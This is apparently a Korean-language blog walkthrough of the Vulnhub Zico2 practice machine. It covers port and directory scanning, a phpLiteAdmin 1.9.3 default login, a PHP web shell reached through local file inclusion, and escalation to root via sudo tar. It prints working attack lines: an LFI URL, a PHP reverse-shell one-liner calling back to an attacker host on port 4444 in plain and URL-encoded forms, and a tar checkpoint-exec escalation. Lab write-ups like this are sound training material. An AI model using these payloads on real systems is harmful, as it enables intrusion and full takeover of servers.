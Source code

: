 ```yaml
---
layout: post
title: Vulnhub - Zico2
subtitle: Zico2 writeup
category: writeup
tags: [writeup, vulnhub, zico, linux, phpliteadmin]
author: Hong
---
```


이번 포스팅에서는 Vulnhub의 Zico2머신 라이트업을 작성하겠다.  
이번 머신은 root로의 권한상승은 쉬웠지만 처음 쉘에 침입하기까지가 복잡했다.  
먼저 핑스윕으로 ip주소를 검색한 뒤 Zico머신의 IP를 찾는다.  
나의 경우 192.168.11.143이었다.

# nmap

IP주소를 찾았기 때문에 nmap으로 포트를 스캔했다.

```
nmap -sC -sV 192.168.11.143
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-02 09:25 JST
Nmap scan report for 192.168.11.143
Host is up (0.0023s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   1024 68:60:de:c2:2b:c6:16:d8:5b:88:be:e3:cc:a1:25:75 (DSA)
|   2048 50:db:75:ba:11:2f:43:c9:ab:14:40:6d:7f:a1:ee:e3 (RSA)
|_  256 11:5d:55:29:8a:77:d8:08:b4:00:9b:a3:61:93:fe:e5 (ECDSA)
80/tcp  open  http    Apache httpd 2.2.22 ((Ubuntu))
|_http-title: Zico's Shop
|_http-server-header: Apache/2.2.22 (Ubuntu)
111/tcp open  rpcbind 2-4 (RPC #100000)
| rpcinfo:
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          37434/udp6  status
|   100024  1          50232/tcp6  status
|   100024  1          55865/tcp   status
|_  100024  1          59117/udp   status
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

열려있는 서비스가 3개 있다. ssh, web, rpc.  
우선 rpc가 나왔기 때문에 정보를 찾아보았다.

```
rpcinfo -p 192.168.11.143
   program vers proto   port  service
    100000    4   tcp    111  portmapper
    100000    3   tcp    111  portmapper
    100000    2   tcp    111  portmapper
    100000    4   udp    111  portmapper
    100000    3   udp    111  portmapper
    100000    2   udp    111  portmapper
    100024    1   udp  59117  status
    100024    1   tcp  55865  status
```

쿼리결과 NFS가 기동되고 있지 않기 때문에 rpc는 사용할 수 없을 것 같다.

# 웹 서버 분석

이어서 80번 포트의 웹서버를 살펴보았다.  
웹페이지를 살펴봐도 특별히 입력이 가능한 부분이나 의심스러운 부분은 없었다.  
혹시 공략할만한 디렉토리가 있는지 보기위해 gobuster를 이용했다.

## gobuster

```
gobuster dir -u http://192.168.11.143 -w /usr/share/wordlists/dirb/common.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.11.143
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 291]
/.hta                 (Status: 403) [Size: 286]
/.htpasswd            (Status: 403) [Size: 291]
/cgi-bin/             (Status: 403) [Size: 290]
/css                  (Status: 301) [Size: 314] [--> http://192.168.11.143/css/]
/dbadmin              (Status: 301) [Size: 318] [--> http://192.168.11.143/dbadmin/]
/img                  (Status: 301) [Size: 314] [--> http://192.168.11.143/img/]
/index.html           (Status: 200) [Size: 7970]
/index                (Status: 200) [Size: 7970]
/js                   (Status: 301) [Size: 313] [--> http://192.168.11.143/js/]
/LICENSE              (Status: 200) [Size: 1094]
/package              (Status: 200) [Size: 789]
/server-status        (Status: 403) [Size: 295]
/tools                (Status: 200) [Size: 8355]
/vendor               (Status: 301) [Size: 317] [--> http://192.168.11.143/vendor/]
/view                 (Status: 200) [Size: 0]
```

여러가지 디렉토리들 중에 **/dbadmin**이 눈에 띄었다.  
해당 디렉토리로 이동하면 다음과 같은 화면이 나온다.  
![login](/assets/img/writeup/vulnhub/login.png)  
조금 검색해보니 디폴트 비밀번호가 **admin**이라고 한다.

admin으로 로그인하면 데이터베이스 관리 화면이 나온다.  
![db_main](/assets/img/writeup/vulnhub/db_main.png)  
심지어 데이터베이스의 테이블을 보면 root와 zico의 해쉬화 된 비밀번호도 볼 수 있었다!  
각각 MD5로 디코딩했더니 다음과 같은 비밀번호들이 나왔다.  
34kroot34, zico2215@  
이걸로 끝?! 너무 쉬웠다.

## ssh

위에서 얻은 root와 zico의 정보로 ssh 접속을 시도해봤다.  
그런데 접속에 계속 실패했다.  
아무래도 위의 비밀번호는 다른 곳에 쓰이는 모양이다. 어쩐지 너무 쉽다 했다.  
더이상 데이터베이스에서 얻을 수 있는 정보는 없었기 때문에 phpliteadmin 1.9.3버전의 취약점을 검색해 보았다.

# phpLiteAdmin 1.9.3

검색해보니 원격으로 명령어를 실행할 수 있는 취약점이 있었다.  
이 취약점을 사용한 CTF 문제도 발견했다.  
https://github.com/h4md153v63n/CTFs/blob/main/01_HTB/08_Nineveh.md  
위의 풀이를 보면 취약점을 어떻게 이용하는지 알 수 있었다.  
![phpliteadmin](/assets/img/writeup/vulnhub/phpliteadmin.png)
비슷한 방법으로 hack.php라는 데이터베이스에 테이블을 만들고 디폴트 값에 cmd를 여는 명령어를 입력했다.  
데이터베이스의 메인화면을 보면 새로만든 데이터베이스의 경로가 나오기 때문에 그 경로를 복사해서 웹서버에 LFI 형식으로 입력했다.  
`192.168.11.143/view.php?page=tools.html../../../../..//usr/databases/hack.php`  
그리고 디폴트로 설정해뒀던 터미널에 명령어를 전달하기 위해 파라미터에 리버스쉘을 여는 명령어를 입력했다.  
`php -r '$sock=fsockopen("192.168.11.128",4444);exec("/bin/sh -i <&3 >&3 2>&3");’ `  
물론 웹인코딩을 하지 않으면 제대로 인식되지 않기 때문에 웹인코딩을 한 후 입력하면 최종적으로 아래와 같이 된다.  
`192.168.11.143/view.php?page=tools.html../../../../..//usr/databases/hack.php&cmd=php+-r+'%24sock%3Dfsockopen("192.168.11.128"%2C4444)%3Bexec("%2Fbin%2Fsh+-i+<%263+>%263+2>%263")%3B';`  
이걸로 4444번 포트를 리스닝한 후 리버스쉘 연결에 성공했다!

# linpeas

접속을 하면 처음에는 www-data로 되어있다.  
권한 상승을 위해 여기저기 파일들을 살펴봐도 정보가 눈에 잘 들어오지 않았다.  
결국 linpeas를 이용하기로 결정. 로컬머신에서 웹서버를 세우고 linpeas를 tmp디렉토리에 옮겨서 실행했다.

```
-rw-r--r-- 1 zico zico 2831 Jun 19  2017 /home/zico/wordpress/wp-config.php
define('DB_NAME', 'zico');
define('DB_USER', 'zico');
define('DB_PASSWORD', 'sWfCsfJSPV9H3AmQzw8');
define('DB_HOST', 'zico');
```

linpeas의 결과 중에 눈에 띄는 부분이 있었는데, 워드프레스 설정 파일에 zico의 비밀번호로 추정되는 정보가 있었다.  
위의 비밀번호를 사용해서 su를 실행했다.

```
zico@zico:/tmp$ whoami
whoami
zico
```

zico의 권한은 획득했지만 아직 root로 권한상승이 남아있다.  
먼저 zico의 sudo 권한을 보기 위해 `sudo -l`을 입력했다.

```
zico@zico:~$ sudo -l
Matching Defaults entries for zico on this host:
    env_reset, exempt_group=admin, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User zico may run the following commands on this host:
    (root) NOPASSWD: /bin/tar
    (root) NOPASSWD: /usr/bin/zip
```

tar와 zip를 sudo권한으로 사용할 수 있다는 것을 확인.  
자주 애용하는 [gtfobins](https://gtfobins.github.io/gtfobins/tar/#sudo)에서 tar의 sudo권한 상승 정보를 얻었다.  
`sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh`  
명령어를 입력했더니 root의 권한을 얻을 수 있었다.

```
flag.txt
# cat flag.txt
#
#
#
# ROOOOT!
# You did it! Congratz!
#
# Hope you enjoyed!
#
#
#
#
```

# 결론

처음 초기침입에 함정이 있는게 인상적이었다. 데이터베이스에 유저와 root의 비밀번호가 있어서 그게 힌트라고 생각해 발목이 붙잡혀있었다.  
포기하고 다른 취약점을 찾고나서 진척이 있었다.  
phpliteadmin의 취약점을 찾았지만 사용법이 까다로웠다. 여러가지 검색해서 CTF에 사용된 예를 보고 따라할 수 있었다.  
root의 권한상승의 경우 gtfo를 활용하면 간단하게 해결할 수 있었다.
